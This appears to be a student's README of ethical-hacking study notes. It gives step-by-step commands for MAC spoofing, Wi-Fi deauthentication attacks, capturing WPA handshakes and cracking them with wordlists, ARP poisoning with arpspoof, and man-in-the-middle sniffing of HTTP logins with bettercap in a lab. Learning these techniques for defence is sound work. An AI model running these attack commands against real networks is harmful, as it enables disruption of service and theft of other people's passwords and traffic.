# Intro to Ethical Hacking

## MAC Address

MAC Address - Media Access Address

in below command check for ether field data which is the MAC address. 

```sh
ifconfig
``` 



Each device will have a unique MAC address so to identify the devices in network. It is good to change the MAC address to be anonymous.

###### More info from WIKI

MAC addresses are primarily assigned by device manufacturers, and are therefore often referred to as the **burned-in address**, or as an **Ethernet hardware address**, **hardware address**, or **physical address**. Each address can be stored in the interface hardware, such as its [read-only memory](https://en.wikipedia.org/wiki/Read-only_memory "Read-only memory"), or by a [firmware](https://en.wikipedia.org/wiki/Firmware "Firmware") mechanism. Many network interfaces, however, support changing their MAC addresses. The address typically includes a manufacturer's [organizationally unique identifier](https://en.wikipedia.org/wiki/Organizationally_unique_identifier "Organizationally unique identifier") (OUI). MAC addresses are formed according to the principles of two numbering spaces based on extended unique identifiers (EUIs) managed by the [Institute of Electrical and Electronics Engineers](https://en.wikipedia.org/wiki/Institute_of_Electrical_and_Electronics_Engineers "Institute of Electrical and Electronics Engineers") (IEEE): **EUI-48**—which replaces the obsolete term **MAC-48**—and **EUI-64**.


#### Steps to change MAC Address

```sh
ifconfig wlan0 down
macchanger --random wlan0
ifconfig wlan0 up
```

Another way to change the MAC Address

```sh
ifconfig wlan0 down
ifconfig wlan0 hw ether <NEW:MAC:ADDR>
ifconfig wlan0 up
```
#### Resources
- https://www.inkyvoxel.com/what-is-a-mac-address/

## Wireless Networks

To check the different network adaptors available run the below command

```sh
airmon-ng
```

To kill existing processes run the below command (recommended to run before monitor mode)

```sh
airmon-ng check kill
```

To start monitor mode for a network adaptor run the below command (wlan0 is a network adaptor in the below ex)

```sh
airmon-ng start wlan0
```

To check if the network adaptor is in monitor mode run the below command and check the mode

```sh
iwconfig
```

To stop the monitor mode
```sh
airmon-ng stop wlan0
```

Alternate Way to put network adaptor in monitor mode

```sh
ifconfig wlan0 down
ifconfig wlan0 mode monitor
ifcondif wlan0 up
```

To sniff network traffic run the below command

```sh
airodump-ng wlan0
```

BSSID is the MAC address of the router and ESSID is the Network Name. PWR stands for the proximity so the larger the number the closer we are to the network. CH is the channel for the network. ENC stands for encryption method used  like WPA2/WPA.

### Airodump-ng for specific target

To get the MAC address (devices) connected to a specific router we can use the below command.

```sh
airodump-ng --channel <channel-of-router> --bssid <MAC-of-Router> --write <Filename> wlan0
```

The STATION's are the MAC addresses of the target device connected to the router i.e your phone, laptop etc.

NetworkManager CLI is a tool which can be used to disconnect or delete connected networks.

```sh
nmcli --help
```

To show list of connections

```sh
nmcli connection show
```

To disconnect the connection
```sh
nmcli connection down <ConenctionName>
```

To forget the connection

```sh
nmcli connection delete <ConnectionName>
```
### Deauthentication Attack

To send deauth attack on whole router network

```sh
aireplay-ng --deauth 10000 -a <MAC-of-router> wlan0
```

here the 10000 number is the time for the attack. This will disconnect all the devices connected to the router network.

To target a specific device to attack i.e. to deauth your phone connected to your WIFI router.

```sh
aireplay-ng --deauth 10000 -a <MAC-of-router> -c <MAC-of_device> wlan0
```

Awesome Post on Deauthentication attack
https://www.inkyvoxel.com/wi-fi-deauthentication-attacks-using-aireplay-ng/


In a WIFI Deauthentication attack, the client does not actively send packets to the router or access point to initiate the Deauthentication process. Instead, the attacker crafts and sends Deauthentication packets to the access point, pretending to be the client. These packets contain the MAC address of the client the attacker wants to deauthenticate.

When the access point receives these Deauthentication packets, it interprets them as requests from the associated client to disconnect from the network. As a result, the access point sends a message to the targeted client, instructing it to disconnect from the network. The client, believing the message is genuine, disconnects from the network.

Once disconnected, the client may attempt to reconnect to the network automatically. This process involves re-authentication, during which the client may send authentication packets to the access point, hence we need to continuously send the Deauthentication request.

The attacker manipulates the communication between the client and the access point by sending forged Deauthentication packets.

### Wireless Network Encryptions

**WEP and WPA / WPA2** are the two common encryptions.

#### WEP
Is old technique and less secure. https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy

#### WPA & WPA2
https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access

When a client connects with a router with a password authentication a four-way handshake happens. If we give a right password then the handshake gives us a acknowledgement packets saying yes authenticated.

From a wordlist we can scan through a huge list of common passwords and make a handshake until we find the password

##### Capturing Handshake

```sh
airodump-ng --channel <channel-of-router> --bssid <MAC-of-Router> --write <Filename> wlan0
```

Keep the above command running and then run the below command to deauthenticate one of the connected device of the router.

```sh
aireplay-ng --deauth 10000 -a <MAC-of-router> -c <MAC-of_device> wlan0
```

Below image shows that the WPA handshake is captured.



**Why are we doing this?**
Because we want to capture handshake of packets. When I deauthenticate a device, the device will auto retry to connect the router network so a handshake will be made.

##### Creating a wordlist

One option is using crunch command to generate passwords https://www.kali.org/tools/crunch/.

Another is there is a folder with common wordlists in kali Linux at `/usr/share/wordlists` location.

To start cracking the password run the below command (this might take time)

```sh
aircrack-ng <path-to-the-cap-file-from-airedump> -w <path-to-the-wordlist>
```

### Post Wireless Network Attacks

#### NetDiscover

```sh
netdiscover -i eth0 -r 10.0.2.0/24 -c 10
```

The -r is the range for the IP range and this a CIDR notation (/24 means starts from 0 to 255)

This basically makes a ARP request for asking who has this IP in the network and the device responds with their mac address saying that it has the IP requested for.

#### Nmap

```sh
nmap -v -sS -A -T4 10.0.2.5
```

CIDR notation for NMAP
```nmap
nmap 10.0.2.0/24
```

ARP Protocol



##### Manual ARP Poison

First enable port_forwarding
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```

To verify run
```sh
cat /proc/sys/net/ipv4/ip_forward
```

```sh
arpspoof -i eth0 -t 10.0.2.5 10.0.2.1
```

Here the 10.0.2.5 is the victim machine and the 10.0.2.1 is the router machine. This will basically tell the victim machine that we are the router.

```sh
arpspoof -i eth0 -t 10.0.2.1 10.0.2.5
```

This the reverse telling the router that we are the victim IP (i.e 10.0.2.5 in this case)

To verify if this is working in the Windows machine run, verify this in the ARP table.

```bash
arp -a
```



Here if you notice, that 10.0.2.15 (the attacker machine IP) mac is used for the router as well (10.0.2.1).

This is a manual process to do ARP poising. Instead use **Bettercap** to perform ARP poisoning or MIM (man in the middle) attacks.

**Bettercap** - https://www.bettercap.org/


#### Bettercap

If bettercap is not installed in the machine for Linux use

```sh
sudo apt install bettercap
```

To start the bettercap tool

```sh
sudo bettercap -iface eth0
```



Use help command in bettercap to see the modules and more info on modules





#### ARP Attack using Bettercap

Turn on the net.probe using ```net.probe on``` and then set the parameters. Full duplex will attack both the gateway and target. (this is needed in MIM attack). Internal is for local network devices.



Now to check if this worked, in Windows check the ARP table using `arp -a` in command prompt and notice that the router and attacker MAC will be the same.

Sniffing packets on the network



In your victim machine (here the Windows VM) access any HTTP website and try out with login and you will see that the the sniffer will capture the packets




#### Hacker's Methodology

